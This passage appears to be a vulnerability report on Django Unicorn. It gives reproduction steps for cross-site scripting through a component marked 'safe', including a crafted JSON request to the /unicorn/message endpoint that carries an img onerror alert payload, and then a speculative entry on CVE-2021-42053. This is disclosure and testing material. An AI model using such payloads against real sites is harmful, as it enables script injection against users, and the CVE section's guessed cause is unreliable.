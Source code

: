         class SafeComponentView(UnicornView):
            message = ""

            class Meta:
                safe = ("message", )
        ```
    2. Create a template `safe_component.html` to render the component and display the `message` attribute:
        ```html
        {# example/unicorn/components/safe_component.html #}
        <div>
            <input unicorn:model="message" />
            <div id="message-output">{{ message }}</div>
        </div>
        ```
    3. Create a view and URL to render this component.
    4. On the frontend, navigate to the view rendering `SafeComponent`.
    5. Open browser developer tools and find the Unicorn component's ID (e.g., using `document.querySelector('[unicorn\\:id]').getAttribute('unicorn:id')`).
    6. Construct a POST request to the Unicorn message endpoint `/unicorn/message` with the following JSON payload, replacing `<component_id>` with the actual component ID:
        ```json
        {
          "id": "<component_id>",
          "name": "example.unicorn.components.safe_component.SafeComponentView",
          "data": {
            "message": "<img src='x' onerror='alert(\"XSS\")'>"
          },
          "checksum": "initial_checksum_value",
          "actionQueue": [
            {
              "type": "syncInput",
              "payload": {
                "id": "message",
                "name": "message",
                "value": "<img src='x' onerror='alert(\"XSS\")'>"
              }
            }
          ]
        }
        ```
    7. Send this request (e.g., using `fetch` in the browser console).
    8. Observe that an alert box with "XSS" is displayed in the browser, demonstrating successful XSS.
    9. Inspect the HTML output in the `dom` part of the JSON response. You should see the raw HTML injected without encoding in the `message-output` div: `<div id="message-output"><img src='x' onerror='alert("XSS")'></div>`.

---
- Vulnerability Name: Potential Cross-Site Scripting (XSS) Vulnerability Prior to Version 0.36.0 (CVE-2021-42053)

- Description:
    - Versions of Django Unicorn prior to 0.36.0 were potentially vulnerable to Cross-Site Scripting (XSS) attacks.
    - The exact nature of the vulnerability is not described in detail within the provided files, but the changelog for version 0.36.0 explicitly mentions a "Security fix: for CVE-2021-42053 to prevent XSS attacks (reported by [Jeffallan](https://github.com/Jeffallan))." and "More complete handling to prevent XSS attacks." in version 0.36.1.
    - It's likely that user-provided data rendered in templates was not consistently or adequately sanitized by default, allowing attackers to inject and execute malicious scripts.
    - Prior to version 0.36.0, the default behavior might have been to render data without HTML encoding, or the encoding might have been inconsistently applied, leaving room for XSS attacks.
